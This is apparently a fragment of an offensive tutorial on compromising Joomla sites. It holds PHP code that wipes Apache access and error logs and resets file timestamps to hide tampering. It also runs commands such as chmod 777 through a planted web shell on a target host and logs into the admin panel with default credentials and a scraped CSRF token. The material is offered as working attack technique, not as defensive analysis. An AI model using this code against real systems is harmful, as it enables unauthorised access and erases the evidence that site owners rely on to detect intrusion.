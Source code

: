 #### Log Cleaning
```php
# Clear web server logs
<?php
if (isset($_GET['clean'])) {
    file_put_contents('/var/log/apache2/access.log', '');
    file_put_contents('/var/log/apache2/error.log', '');
    echo "Logs cleared";
}
?>
```

#### File Timestamp Manipulation
```php
# Preserve original timestamps
<?php
if (isset($_GET['preserve'])) {
    $original_time = filemtime(__FILE__);
    // Perform malicious actions
    touch(__FILE__, $original_time);
}
?>
```

---

## Common Issues & Troubleshooting

### Template Editing Problems

#### "Call to a member function format() on null" Error
```bash
# Solution: Disable PHP Version Check plugin
# Navigate to: Plugins → Quick Icon - PHP Version Check → Disable

# Alternative: Direct database fix
mysql -u joomla_user -p'password' joomla_database
UPDATE jos_extensions SET enabled = 0 WHERE name = 'plg_quickicon_phpversioncheck';
```

#### Template File Not Writable
```bash
# Check file permissions via web shell
curl "http://target.com/error.php?cmd=ls+-la+/var/www/html/templates/protostar/"

# Fix permissions if possible
curl "http://target.com/error.php?cmd=chmod+777+/var/www/html/templates/protostar/error.php"
```

#### Authentication Failures
```bash
# Verify session handling
curl -X POST "http://target.com/administrator/index.php" \
  -d "username=admin&passwd=admin&task=login" \
  -c cookies.txt -v

# Check for CSRF tokens
curl -s "http://target.com/administrator/" | grep csrf

# Include CSRF token in requests
csrf_token=$(curl -s "http://target.com/administrator/" | grep -oP 'name="[a-f0-9]{32}" value="1"' | cut -d'"' -f2)
curl -X POST "http://target.com/administrator/index.php" \
  -d "username=admin&passwd=admin&task=login&$csrf_token=1"
```